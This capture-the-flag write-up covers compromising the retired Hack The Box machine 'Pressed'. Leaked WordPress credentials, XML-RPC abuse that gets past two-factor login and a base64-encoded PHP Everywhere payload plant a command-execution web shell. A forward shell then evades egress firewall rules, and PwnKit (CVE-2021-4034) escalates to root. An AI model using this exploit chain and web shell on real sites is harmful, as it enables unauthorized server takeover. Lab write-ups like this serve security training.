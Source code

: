 # Pressed

This is the write-up for the box Pressed that got retired at the 5th February 2022.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.142    pressed.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/pressed.nmap 10.10.11.142
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.9
|_http-title: UHC Jan Finals &#8211; New Month, New Boxes
```

## Checking HTTP (Port 80)

The webserver hosts a blog with one post and in the HTML source code there are paths that are typical for **WordPress** instances.
Browsing to _wp-admin_ forwards to the login page on the hostname _pressed.htb_ and confirms that observation.

Enumerating **WordPress** with **WPScan**:
```
wpscan --url http://pressed.htb -e ap,u --plugins-detection aggressive
```
```
[i] Config Backup(s) Identified:
[!] http://pressed.htb/wp-config.php.bak
```

It exposes a backup file of _wp-config.php_ which contains credentials for the database:
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'uhc-jan-finals-2021' );
```

This password can be tried on the _wp-login.php_ login form with the user _admin_.
The provided password does not work, but by changing the year to 2022, it is valid and forwards to a page on which it wants to validate an **OTP** on the [Two-Factor Authentication application of miniOrange](https://www.miniorange.com/products/two-factor-authentication-(2fa)):

![OTP on WordPress](pressed_web-1.png)

We cannot get through this, but the results of **WPScan** showed, that **XML-RPC** is enabled:
```
[+] XML-RPC seems to be enabled: http://pressed.htb/xmlrpc.php
```

The [XML-RPC WordPress API](https://codex.wordpress.org/XML-RPC_WordPress_API) is a legacy way for services to communicate with WordPress and it is not able to implement MFA.

Listing all methods with `curl`:
```
curl -d '<?xml version="1.0"?> <methodCall> <methodName>system.listMethods</methodName> </methodCall>' http://pressed.htb/xmlrpc.php
```

### Exploiting WordPress XML-RPC

I will use the Python library [python-wordpress-xmlrpc](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/) to interact with the XML-RPC interface:
```
pip3 install python-wordpress-xmlrpc
```

Trying to upload a file:
```python
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.compat import xmlrpc_client
import wordpress_xmlrpc.methods as wp

client = Client('http://pressed.htb/xmlrpc.php', username='admin', password='uhc-jan-finals-2022')

data = {
    'name': 'shell.php',
    'type': 'image/jpeg',
}

with open("shell.php", 'rb') as img:
     data['bits'] = xmlrpc_client.Binary(img.read())

r = client.call(wp.media.UploadFile(data))
```
```
xmlrpc.client.Fault: <Fault 500: 'Could not write file shell.php (Sorry, you are not allowed to upload this file type.).'>
```

Unfortunately it is not possible to upload PHP files with this user.

Checking the contents of the post:
```python
p = client.call(wp.posts.GetPosts())[0]
p.content
```
```
wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"}
```

The post uses the [PHP Everywhere plugin](https://wordpress.org/plugins/php-everywhere/) and has PHP code in it.

Base64-decoding the string:
```
echo JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxl(...) | base64 -d
```
```
%3C%3Fphp%20%20echo(file_get_contents('%2Fvar%2Fwww%2Fhtml%2Foutput.log'))%3B%20%3F%3E
```

URL-decoding the result:
```
<?php  echo(file_get_contents('/var/www/html/output.log')); ?>
```

This means a post with **PHP Everywhere** can be created to execute arbitrary PHP code.

Creating PHP reverse shell _(shell.php)_
```
<?php
  system($_REQUEST['cmd']);
?>
```

Base64-encoding _shell.php_
```
base64 shell.php -w 0
```

Creating PHP code to upload a PHP file _(upload.php)_:
```
<?php
  file_put_contents('shell.php', base64_decode('PD9waHAgCnN5c3RlbSgkX1JFUVVFU1RbJ2NtZCddKTsKPz4K'));
  echo("Success");
?>
```

Base64-encoding _upload.php_
```
base64 upload.php -w 0
```

Cloning the post and adding our PHP code:
```python
p.id = 2
p.content = '<!-- wp:paragraph -->\n<>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAKICBmaWxlX3B1dF9jb250ZW50cygnc2hlbGwucGhwJywgYmFzZTY0X2RlY29kZSgnUEQ5d2FIQWdDbk41YzNSbGJTZ2tYMUpGVVZWRlUxUmJKMk50WkNkZEtUc0tQejRLJykpOwogIGVjaG8oIlN1Y2Nlc3MiKTsKPz4K","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'

client.call(wp.posts.NewPost(p))
```

There is a new post on the homepage and after opening it, it will execute the PHP code and create _shell.php_, which can be used for command execution:
```
http://pressed.htb/shell.php?cmd=id
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Getting Shell Access

Unfortunately it is not possible to get a reverse shell as there are firewall rules implemented:
```
POST /shell.php
(...)

cmd=cat /etc/iptables/rules.v4
```
```
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
-A OUTPUT -p tcp -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -o lo -j ACCEPT
COMMIT
```

It accepts only connections on port 80 and drops every outgoing packet if it is not an established or related connection.
To bypass this, the [Forward-Shell from ippsec](https://github.com/IppSec/forward-shell) can be used after modifying some parts of it:
```python
# MODIFY THIS, URL
self.url = r"http://pressed.htb/shell.php"

# (...)

# MODIFY THIS: Payload in User-Agent because it was used in ShellShock
data = { 'cmd': payload }
        try:
            r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)
# (...)
```

Executing _forward-shell.py_:
```
python3 forward-shell.py
```

Now we have a pseudo-shell as the user _www-data_.

## Privilege Escalation

Searching for files owned by root and the **Setuid bit** set:
```
find / -perm -4000 -user root -ls | grep -v /var 2>/dev/null
```

The binary _/usr/bin/pkexec_ is especially interesting as it may be vulnerable to the [PwnKit vulnerability](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

I will use the bash implementation for [CVE-2021-4034 on GitHub](https://github.com/kimusan/pkwner).

Uploading the _pkwner.sh_ script to the box via **XML-RPC**:
```python
data = {
    'name': 'pkwner.jpeg',
    'type': 'image/jpeg',
}

with open("pkwner.sh", 'rb') as img:
     data['bits'] = xmlrpc_client.Binary(img.read())

r = client.call(wp.media.UploadFile(data))
```

The file will be uploaded to _/var/www/html/wp-content/uploads/2022/12/pkwner.jpeg_ and we can browse there with our **Forward-Shell** to execute it:
```
cd /var/www/html/wp-content/uploads/2022/12/

chmod +x pkwner.jpeg

bash pkwner.jpeg
```

After executing the script, it can be confirmed with the `id` command that privileges got escalated to root!
```
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
